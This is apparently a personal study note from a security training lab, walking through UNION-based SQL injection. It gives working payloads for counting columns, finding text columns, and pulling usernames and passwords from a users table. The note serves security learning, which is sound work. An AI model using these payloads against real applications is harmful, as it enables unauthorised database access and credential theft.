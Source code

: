 ```yaml
---
title: Using SQLi UNION to Retrieve interesting Data
updated: 2022-12-01T10:21:11.0000000+04:00
created: 2022-11-30T08:31:56.0000000+04:00
---
```


Using SQLi UNION to Retrieve interesting Data
Wednesday, November 30, 2022
8:31 AM
**<u>Condition for this step:</u>**

1.  Determined the number of columns:
2.  Found what column can hold string data
3.  You have found the database name
4.  You have found table names
5.  You have found column names from a table

**<u>Example:</u>**

1.  Let's say you found 2 columns that can hold string (text) data:

**Step 1: Identify the number of columns**

- ' UNION SELECT NULL,NULL--

**Step 2: Identify which column can hold string data**

- ' UNION SELECT 'a','a'--

2.  Once you have identified that 2 columns can hold the string data you can proceed by inputting the following query.

- ' UNION SELECT username, password FROM users--

***<u>Results from the LAB</u>***

![image1](image1-188.png)
